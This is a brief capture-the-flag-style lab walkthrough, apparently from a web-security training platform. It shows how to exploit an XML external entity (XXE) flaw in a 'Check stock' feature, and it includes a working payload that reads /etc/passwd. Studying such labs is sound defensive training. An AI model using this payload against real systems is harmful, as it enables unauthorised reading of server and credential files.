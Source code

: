 # Exploiting XXE using external entities to retrieve files

## This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

## To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

### step1

go to product page intercept send to repeater

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

### step2

add _<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>_ and in product id use &xxe;

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>
```

![screenshot](./images/lab1_xxe_retrieve_files.png)

lab solved
